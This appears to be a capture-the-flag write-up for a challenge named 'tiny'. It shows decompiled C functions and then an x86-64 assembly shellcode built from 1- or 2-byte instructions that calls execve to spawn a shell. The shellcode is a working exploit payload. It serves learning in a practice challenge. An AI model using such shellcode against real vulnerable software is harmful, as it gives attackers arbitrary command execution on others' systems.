 # tiny

The main of this CTF just invoke the play function:
```c
void game(void)
{
  alarm(0x3c);
  welcome();
  play();
  return;
}
```
The welcome() function give us a big hint in how to solve the challenge:
```c
void welcome(void)
{
  puts("Can you pop a shell with a shellcode made of 1 or 2 bytes instructions?");
  return;
}

```
The play() function instead just take the shellcode, check if it is made by 1 or 2 bytes instructions and if this is the case it will execute it.
This is a shellcode that can spawn a shell just with 1 or 2 bytes instructions:
```python
asm_code="""
pop rax
push rdx
pop rax
add al, 18
push rax
pop rdi
push 0x3b
pop rax
push 0
push 0
pop rsi
pop rdx
syscall
"""
```
